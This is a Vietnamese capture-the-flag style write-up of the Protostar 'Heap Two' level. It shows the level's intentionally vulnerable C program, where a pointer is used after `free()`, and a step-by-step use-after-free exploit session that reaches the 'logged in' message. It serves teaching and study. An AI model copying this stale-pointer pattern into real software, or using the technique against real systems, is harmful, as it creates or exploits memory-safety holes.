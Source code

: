 # HEAP TWO

## About

This level examines what can happen when heap pointers are stale.

This level is completed when you see the “you have logged in already!” message

This level is at /opt/protostar/bin/heap2

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;
    
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if(strncmp(line, "login", 5) == 0) {
      if(auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```

## Solutions

`HEAP TWO` là một cấp độ đơn giản giới thiệu những gì xảy ra với con trỏ dữ liệu của người dùng sau khi `chunk heap` được cấp phát bị `free()`. Đó thực sự là một ví dụ điển hình về `Use After Free [UAF]`. Mục tiêu của chúng ta ở đây là để chương trình in `"you have logged in already!"`.

Chương trình có một vài chức năng như `auth`, `reset`, `service` và `login`. Chúng ta sẽ thử chạy chương trình.

```
root@protostar:/opt/protostar/bin# ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
login
please enter your password
[ auth = 0x804c008, service = (nil) ]
service AAAA
[ auth = 0x804c008, service = 0x804c008 ]
login
please enter your password
[ auth = 0x804c008, service = 0x804c008 ]
```

Chúng tôi nhận thấy rằng con trỏ `auth` vẫn trỏ đến vị trí bộ nhớ ban đầu sau lệnh `reset` - gọi tới hàm `free()` giải phóng bộ nhớ được cấp phát động bằng con trỏ `auth`. Hơn nữa chức năng `login` vẫn tham chiếu tới `auth->auth` tại vị trí đó sau khi đã được giải phóng. Bây giờ mục tiếu của chúng ta là ghi đè giá trị của `auth->auth` bằng 1.

Chúng ta sẽ nói qua về `strdup()`, nó nhân bản chuỗi được truyền cho nó vào con trỏ được gán và vùng nhớ đó là trên Heap memory. Bạn có thể xem qua đoạn code C mô tả sau - tôi lấy nó trên `stackoverflow`.

```
char *strdup(const char *src) {
    char *dst = malloc(strlen (src) + 1);  // Space for length plus nul
    if (dst == NULL) return NULL;          // No memory
    strcpy(dst, src);                      // Copy the characters
    return dst;                            // Return the new string
}
```

Và trong những lần chạy thử sau khi `reset` rồi gọi đến `service` địa chỉ của `auth->auth` và `*service` trùng nhau.

```
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service AAAA
[ auth = 0x804c008, service = 0x804c018 ]
```

```
                 0x804c018
[auth->name].....[service]......[auth->auth]
  |                             |          
  |_____________________________|
0x804c008       32             
```

Vì vậy, cách khai thác của chúng tôi là cấp phát một `struct auth` và giải phóng nó bằng lệnh `reset`. Tiếp theo, chúng tôi sử dụng lệnh `service` gọi hàm `strdup()` cấp phát bộ nhớ trên heap và ghi một chuỗi 16 ký tự `"1"` vì `strdup()` phân bổ bộ nhớ tại cùng một vị trí với `struct auth` được giải phóng. Mức này đủ đơn giản để chúng ta không cần phải quá chính xác về những gì hoặc bao nhiêu byte mà chúng ta viết `strdup()`.

Tiến hành khai thác.

```
root@protostar:/opt/protostar/bin# ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service 111111111111111111111111111111111
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>

<https://encyclopedia.kaspersky.com/glossary/use-after-free/>

<https://cwe.mitre.org/data/definitions/416.html>



